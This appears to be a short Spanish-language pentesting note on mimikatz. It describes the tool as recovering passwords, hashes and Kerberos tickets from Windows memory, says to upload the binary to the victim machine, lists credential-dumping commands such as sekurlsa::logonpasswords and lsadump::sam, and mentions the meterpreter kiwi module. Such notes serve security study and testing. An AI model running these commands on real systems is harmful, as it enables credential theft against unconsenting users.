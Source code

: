 # ¿Qué es?

Es una herramienta de post-explotación de Windows que permite recuperar contraseñas, hashes y tickets de [[Kerberos]] de la memoria.

Permite extraer hashes del proceso `lsass.exe`.

# Uso

## Binario

Existe una versión precompilada, para utilizarla deberemos subirla a la máquina víctima.

```powersehll
.\mimikatz.exe

privilege::debug --Comprueba si tienes suficientes privilegios

lsadump::sam

lsadump::secrets

sekurlsa::logonpasswords
```

## Kiwi module (meterpreter)

Si tenemos una sesión de [[metasploit|meterpreter]], podemos utilizar el módulo **kiwi**. 